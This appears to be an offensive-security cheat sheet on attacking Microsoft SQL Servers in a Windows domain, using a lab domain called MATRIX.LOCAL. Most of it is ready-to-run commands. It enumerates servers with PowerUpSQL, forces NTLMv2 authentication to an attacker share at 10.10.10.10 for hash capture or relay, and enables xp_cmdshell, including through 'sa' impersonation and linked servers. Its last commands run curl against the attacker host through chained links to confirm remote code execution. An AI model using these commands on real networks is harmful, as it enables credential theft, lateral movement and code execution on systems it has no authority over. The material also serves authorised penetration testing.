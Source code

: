 ## MSSQL Server Abuse

SQL Servers within a domain offer a fresh attack surface. Often they are misconfigured to provide overly permissive configurations to users, store sensitive data, and even link to servers in other domains which can lead to lateral movement opportunities. 

We can use PowerUpSQL to perform lots of the enumeration of SQL servers for us.

 https://github.com/NetSPI/PowerUpSQL 

### PowerUpSQL Basics

Using PowerupSQL we can discover MSSQL servers and test our connections:

```powershell
# Discover Servers
Get-SQLInstanceDomain
Get-SQLInstanceBroadcast
Get-SQLInstanceScanUDP

# Test connection to server
Get-SQLConnectionTest -Instance "sql.MATRIX.LOCAL,1433"

# Get information about the given instance
Get-SQLServerInfo -Instance "sql.MATRIX.LOCAL,1433"

# Automate the discovery and info of every server
Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo

# Run a command to check the version on the target machine
Get-SQLQuery -Instance "sql.MATRIX.LOCAL,1433" -Query "select @@version"

# Get Server Privileges for the current user
Get-SQLServerPriv
```

### PowerUpSQL Attacks

There are multiple attack vectors we can use pre-built into PowerUpSQL. For instance, we can force a connection back to an server we control to capture the users NTLMv2 hash to either crack with hashcat (`-m 5600`) or relay.

First we'll set up Responder or Inveigh (Linux, Windows respectively).

✨✨ https://github.com/Kevin-Robertson/InveighZero ✨✨

✨✨ https://github.com/SpiderLabs/Responder ✨✨

```powershell
sudo responder -I <interface>

C:\Inveigh.exe -DNS N -LLMNR N -LLMNRv6 N -HTTP N
```

Then we'll try to trigger a connection to our share.

```powershell
Get-SQLQuery -Instance "sql.MATRIX.LOCAL,1433" -Query "EXEC xp_dirtree '\\10.10.10.10\share', 1, 1"
```

Furthermore, we can try to execute commands on the target. This is possible if `xp_cmdshell` is enabled. However, PowerUpSQL will attempt enable and then disable it automatically to run the command if it's disabled.

```powershell
Invoke-SQLOSCmd -Instance "sql.MATRIX.LOCAL,1433" -Command "curl 10.10.10.10" -RawResults
```

### Manually Exploiting MSSQL

We can manually enumerate servers from the target using native commands:

```powershell
setspn -T MATRIX -Q MSSQLSvc/* 
setspn -T MATRIX.LOCAL -Q MSSQLSvc/* 
```

So if we don't want to use PowerUpSQL, we can try things manually instead. We can connect to the target database with any MSSQL connection software, such as `Sqsh` or impacket's `mssqlclient.py`. It may be necessary to portforward from the target for this to be possible.

```bash
# Connecting using mssqlclient
impacket-mssqlclient -windows-auth MATRIX/Neo:'strongpassword'@SQL.MATRIX.LOCAL
```

We'll test if `xp_cmdshell` is enabled. 

```sql
EXEC xp_cmdshell 'whoami';
```

If it fails, we can either enable it with `sa` privileges or if RPC OUT is enabled (Disabled by default).

```sql
--check if it is disabled == 0 value == disabled
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';

--enable it 
sp_configure 'Show Advanced Options', 1; RECONFIGURE; sp_configure 'xp_cmdshell', 1; RECONFIGURE;

--check if it is enabled == 1 value == enabled
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';

--run your command again
EXEC xp_cmdshell 'whoami';

--try to force NTLMv2 auth
EXEC xp_dirtree '\\10.10.10.10\share';
```


### Advanced MSSQL Abuse - Impersonation

Sometimes it's possible to impersonate users and run commands in the context of their account. Confirm this with the following query:

```powershell
# Find any users we can impersonate
Get-SQLQuery -Verbose -Instance SQLSERVER -Query "SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';"
```

If we find we can execute as another user, do it by doing the following (should return the user we impersonate):

```powershell
Get-SQLQuery -Verbose -Instance CYWEBDW -Query "EXECUTE AS LOGIN = 'sa';SELECT SYSTEM_USER;"
```

Using this, you can turn on `xp_cmdshell`!

```powershell
Get-SQLQuery -Verbose -Instance SQLSERVER -Query "EXECUTE AS LOGIN = 'sa'; EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE;"
Get-SQLQuery -Verbose -Instance SQLSERVER -Query "EXECUTE AS LOGIN = 'sa'; EXECUTE('sp_configure ''xp_cmdshell'', 1'); RECONFIGURE;"
```

### Advanced MSSQL Abuse - Links

Linked servers allow access to data from various different sources - Including other MSSQL servers. This can occur across domains, forests, and even clouds.

We can identify linked servers using the following query:

```sql
select * from master..sysservers;
```

Once a linked server is identified, you can try to execute commands on the target.

```sql
SELECT * FROM OPENQUERY("sql-backup.matrix-backup.local", 'select @@version');
```

This means we can check if `xp_cmdshell` is open on the linked server:

```sql
-- 1 is enabled, 0 is disabled
SELECT * FROM OPENQUERY("sql-backup.matrix-backup.local", 'SELECT * FROM sys.configurations WHERE name = ''xp_cmdshell''');
```

If it's not activated, it unfortunately cannot be activated over a link using OpenQuery. Instead, we have to use the AT keyword. These queries can be run from PowerUpSQL or from the MSSQL client you're using, obviously just adjust it so you're sending either the full command or just the query.

```sql
-- A couple ways to turn it on using different aspects of powerupsql
powerpick Get-SQLServerLinkCrawl -instance "sql.MATRIX.LOCAL" -verbose -Query 'EXECUTE(''sp_configure ''''show advanced options'''',1;reconfigure;'') AT "sql-backup.matrix-backup.local"'

powerpick Get-SQLServerLinkCrawl -instance "sql.MATRIX.LOCAL" -verbose -Query 'EXECUTE(''sp_configure ''''xp_cmdshell'''',1;reconfigure;'') AT "sql-backup.matrix-backup.local"'

powerpick Get-SQLQuery -Verbose -Instance "sql.MATRIX.LOCAL" -Query 'EXEC(''sp_configure ''''show advanced options'''', 1; RECONFIGURE;'') AT "sql-backup.matrix-backup.local"'

powerpick Get-SQLQuery -Verbose -Instance "sql.MATRIX.LOCAL" -Query 'EXEC(''sp_configure ''''xp_cmdshell'''', 1; RECONFIGURE;'') AT "sql-backup.matrix-backup.local"'
```

PowerUpSQL provides a pre-built module to query all remote servers and check for existence of sysadmin privileges within that server:

```powershell
Get-SQLServerLinkCrawl
```

You can run commands through multiple chained links, too. Here we demonstrate in the first command going through one link, then through that link, to another server. 

🚩 Note: You obviously need to ensure that your servers are routable as you will not get output from commands over multiple servers. I recommend pinging or curling yourself to check RCE. 🚩

```powershell
Get-SQLQuery -Instance "sql.MATRIX.LOCAL,1433" -Query "SELECT * FROM OPENQUERY(""sql-backup.matrix-backup.local"", 'select @@servername; exec xp_cmdshell ''curl 10.10.10.10/rce''')"

Get-SQLQuery -Instance "sql.MATRIX.LOCAL,1433" -Query "SELECT * FROM OPENQUERY(""sql-backup.matrix-backup.local"", 'select * from openquery(""sql-master.zion.local"", ''select @@servername; exec xp_cmdshell ''''curl 10.10.10.10/rce'''''')')"
```